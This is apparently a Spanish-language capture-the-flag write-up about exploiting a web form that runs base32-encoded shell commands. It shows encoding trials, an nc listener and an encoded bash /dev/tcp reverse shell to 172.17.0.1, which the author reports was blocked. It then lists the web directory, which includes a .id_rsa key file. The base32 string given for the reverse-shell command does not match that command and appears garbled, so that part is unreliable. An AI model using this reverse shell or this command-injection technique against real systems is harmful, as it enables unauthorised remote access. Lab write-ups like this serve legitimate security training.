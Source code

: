 Tenemos este comentario en el codigo **HTML**
```bash
<!-- Formulario para enviar comandos codificados en ??? -->
```

Despues de probar todos estas codificaciones que no funcionan:
```bash
echo -n "whoami" | base64
echo "whoami" | md5sum
echo "whoami" | sha256sum
echo "whoami" | xxd -p
```

Tenemos uno que si funciono
```bash
# Comandos para explotación
echo -n "whoami" | base32

O5UG6YLNNE====== # Este colocamos
```

### Intrusion
Nos ponemos en modo escucha para ver si podemos ganar acceso
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
echo -n "bash -c 'exec bash -i &>/dev/tcp/172.17.0.1/443 <&1'" | base32

MJQXGZJVOJRGC5DINRWGS3DJNZVGR2TIRKFMRSVMU3GGQ3DJU3GGQ2DJNZVGR2TIRKFMRSV # comando final
```

Aunque el comando esta bien, Existe validacion para que no puedamos ganar acceso asi que veremos is podemos enumerar el sistema desde el sistio
```bash
echo -n "ls -la" | base32

NRZSALLMME======
```

Tenemos lo siguiente:
```bash
#### Salida del Comando:

total 40
drwxr-xr-x 3 root root 4096 Aug 30  2024 .
drwxr-xr-x 4 root root 4096 Aug 30  2024 ..
-rwxr-xr-x 1 root root 3389 Aug 30  2024 .id_rsa
-rw-r--r-- 1 root root 6665 Aug 30  2024 configuration.php
drwxr-xr-x 2 root root 4096 Aug 30  2024 img
-rw-r--r-- 1 root root 5460 Aug 30  2024 index.php
-rw-r--r-- 1 root root 3509 Aug 30  2024 myconsole.php
-rw-r--r-- 1 root root 1825 Aug 30  2024 styles.css
```
